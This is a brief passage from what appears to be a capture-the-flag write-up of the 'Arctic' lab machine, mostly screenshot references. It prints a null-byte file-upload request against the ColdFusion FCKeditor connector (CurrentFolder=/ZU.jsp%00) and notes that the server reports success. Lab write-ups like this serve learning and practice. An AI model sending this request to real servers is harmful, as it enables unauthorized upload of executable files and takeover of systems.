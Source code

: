 ![](/Windows/Windows-Easy/Arctic/Screenshots/burpexpoit.png)


now we can see the request it trying to make 

```sh
POST /CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/ZU.jsp%00 HTTP/1.1
```

so  where the exploit came in is `Zu.jsp%00` which is a string termination. Now we send the exploit ia burp and we can see on the Response that a sucess message

![](/Windows/Windows-Easy/Arctic/Screenshots/burprespone.png)
